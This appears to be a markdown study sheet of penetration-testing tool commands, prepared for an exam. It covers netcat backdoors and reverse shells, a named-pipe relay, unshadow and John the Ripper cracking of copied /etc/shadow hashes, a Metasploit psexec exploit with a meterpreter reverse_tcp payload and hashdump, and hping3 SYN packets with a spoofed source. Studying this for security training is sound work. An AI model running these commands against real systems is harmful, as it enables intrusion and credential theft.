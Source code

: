# Common Tools

## Exam Outcome

Demonstrate competence with common tools including netcat, SSH, Ettercap, p0f, etc...

### netcat

Setting up a Listener:

```
nc -l -p [port]
nc -l -p [2222]
```

Connecting to the Listener:

```
nc [ip_of_listener] [port]
nc 10.10.75.75 2222
```

Create backdoor on Linux:

```
nc -l [port] -e /bin/sh
nc -l 7777 -e /bin/sh
```

Connect to the backdoor:

```
nc.exe [ip_of_listener] [port]
nc.exe 10.10.75.75 7777
```

Create reverse shell on Windows
```
[Attacker] nc -l -p 8888
[Victim] nc 10.10.10.10 8888 -e cmd.exe
```

Pulling a file:

```
[Listener]echo "this is a test" > text.txt
[Listener]nc -l -p 1234 < text.txt

[Client]nc [Listerner IP] > received.txt
```

Pushing a file:

```
[Client]echo "test" > file.txt
[Listener]nc -l -p 4321 > received.txt
[Client] nc 10.10.10.1 4321 < file.txt
[Listener] type receive.txt
```

Create a Linux relay:

Run listening shell on Windows (victim):

```
nc -l -p 54321 -e cmd.exe
```

Create a FIFO named pipe on Linux (attacker):

```
mknod backpipe p
```

Create a relay and interact with the named pipe (attacker):

```
nc -l -p 11111 0<backpipe | nc 10.10.10.1 54321 1>backpipe
```

Open new terminal on Linux (attacker) and run netcat to connect to the relay:

```
nc 127.0.0.1 11111
```

### SSH

### Ettercap

### p0f

### John the Ripper

John the Ripper is essentially a password cracking tool.  You can utilize John the Ripper to perform password cracking once you've retrieved password hashes from a target.

First, you need to combine the passwd and shadow files (from a Linux machine).  The following examples assumes you've taken a copy of /etc/passwd and /etc/shadow and moved them to the /tmp directory:

```
./unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Running John is trival:

```
./john /tmp/combined
```

### Cain & Abel

Cain & Abel is an auditing tool that can be used for testing the strength of passwords on Windows machines.

### Metasploit

Starting Metasploit:

```
msfconsole
```

Listing exploits:

```
show exploits
```

Searching exploits:

```
search type:exploit psexec
```

Acquiring info on an exploit:

```
info exploit/windows/smb/psexec
```

Selecting an exploit to use:

```
use exploit/windows/smb/psexec
```

Configuring exploit settings:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Showing options:

```
show options
```

Configuring variables:

```
set RHOST [Target IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [source/attacker IP]
```

Launching exploit:

```
exploit
```

Backgrounding a session:

```
background
```

Listing sessions:

```
sessions -l
```

```
sessions -i [session #]
```

Popular meterpreter commands:

```
?
sysinfo
getuid
pwd
getpid
ps
hashdump
run hashdump
```

### Volatility

Getting usage and help

```
python vol.py -h
```

Getting process list:

```
python vol.py pslist -f /path/to/memory/dump/mem.dd --profile=Win7SP0x86
```

### Hping3

Hping3 is a command-line packet analyzer that supports the TCP, UDP, ICMP, and RAW-IP protocols.

```
hping3 --help
```

Running hping3 with TCP SYN flags:

```
hping3 -S [IP address]
```

Running hping3 with TCP SYN flags and a spoofed source address:

```
hping3 [IP Address] -a [spoofed IP] -S
```

### Dumpsec

Dumpsec gathers information about a remote host without providing valid authentication; you gain info on registry, file system, and printers; users and groups; policies, rights, and services.


### etc...

